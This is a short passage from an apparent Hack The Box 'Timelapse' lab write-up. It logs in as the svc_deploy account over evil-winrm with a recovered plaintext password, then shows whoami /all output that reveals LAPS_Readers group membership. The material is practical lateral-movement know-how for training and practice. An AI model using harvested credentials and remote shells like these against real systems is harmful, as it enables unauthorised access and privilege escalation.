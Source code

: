 We got credentials of another user ```svc_deploy```.

Logging into ```svc_deploy```.

```
┌──(saad㉿ssaadakhtarr)-[~/…/hackthebox/machines/timelapse/writeup]
└─$ evil-winrm -S -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'

Evil-WinRM shell v3.3

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami
timelapse\svc_deploy

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami /all

USER INFORMATION
----------------

User Name            SID
==================== ============================================
timelapse\svc_deploy S-1-5-21-671920749-559770252-3318990721-3103


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
TIMELAPSE\LAPS_Readers                      Group            S-1-5-21-671920749-559770252-3318990721-2601 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.
```